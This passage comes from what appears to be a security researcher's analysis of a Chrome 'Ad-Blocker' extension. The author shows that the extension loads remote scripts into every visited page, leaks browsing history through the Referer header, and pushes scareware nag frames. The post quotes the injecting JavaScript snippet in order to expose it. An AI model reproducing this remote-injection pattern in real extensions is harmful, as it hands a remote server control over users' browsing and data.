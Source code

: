 I wonder whether the developers of Ad-Blocker declared using remote code and, if they did, how they justified that. No, I don’t think they did.

The policy also says:

> Extensions that use remote code will need extra scrutiny, resulting in longer review times.

No, I sincerely doubt that any amount of scrutiny was ever spent on this extension. As I said, it isn’t exactly subtle about what it does.

### Giving a remote server full control over visited websites

The extension also has a very similar script called `GlobalInjectJS.js` which runs as a content script in each visited web page:

```js
var mf = document.createElement("script");
//mf.type = "text/javascript";
mf.async = true;
mf.src = "https://negbar.ad-blocker.org/chrome/adblocker-chromeglobalinjectjs.js";
document.getElementsByTagName("head")[0].appendChild(mf);
```

So this loads the script `https://negbar.ad-blocker.org/chrome/adblocker-chromeglobalinjectjs.js` into each website you visit. Currently, this script is empty for me. But even this way, the `Referer` HTTP header sent along with the script request tells the server which website the user visited. So the `negbar.ad-blocker.org` web server can collect users’ browsing profiles just nicely.

Of course, it’s the same here: this script doesn’t have to stay empty. In fact, this functionality certainly wasn’t added only to load an empty script. It can start serving some malicious code any time, for all extension users or only the selected few.

### The “neg bar”

Are you also wondering what `negbar` in the server’s name stands for? It seems to be misspelled, as an object in the extension’s source code called `showNag` shows. So this is actually about nagging the user. Nagging with what?

This functionality is contained in another content script called `showNeg.js`. It downloads some data from `https://negbar.ad-blocker.org/chrome/adblocker-chrome-shownegJson.txt`. And then it uses a number of factors to decide whether it should display the frame indicated in this data to the user. The factors include not showing the message more than once per day and not injecting it into the extension’s own pages.

Now the data is currently empty for me (something that can obviously change any time). Luckily, the developers left an unused `showNeg()` function in the code, featuring two default addresses for that “nag frame”: `https://adblocker.pcvark.com/downloadProduct.html` and `https://apmserv.pcvark.com/apm_html/v1_1/detectuserapm.html`. The latter even still exists on the web:

{{< img src="nagbar.png" width="645" alt="A message saying: Should Advanced Password Manager remember this password? Next to it two buttons: Save Site and Not Now." />}}

Internet Archive shows that the former page was similar. The message however was: “Your identity is at risk. Download Advanced Password Manager to start safeguarding your identity.” The “Protect now” button would then start downloading a Windows executable.
